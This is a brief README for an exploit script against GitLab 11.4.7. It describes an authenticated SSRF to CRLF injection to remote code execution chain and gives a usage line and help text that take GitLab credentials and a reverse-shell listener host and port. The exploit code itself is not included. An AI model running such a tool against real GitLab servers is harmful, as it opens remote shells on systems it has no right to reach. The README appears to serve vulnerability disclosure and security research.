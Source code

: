 # GitLab-11.4.7-Authenticated-Remote-Code-Execution        
# (SSRF -> CRLF -> RCE)

<h4> Blog : https://github.com/jas502n/gitlab-SSRF-redis-RCE/blob/master/README.md </h4>


<h3> Usage : python gitlab_rce.py -U `USERNAME` -P `PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

<p>optional arguments:</p>

 <p> -h, --help show this help message and exit </p>
 <p> -U         GitLab Username </p>
 <p> -P         Gitlab Password </p>
 <p> -l         rev shell lhost </p>
 <p> -p         rev shell lport </p> 
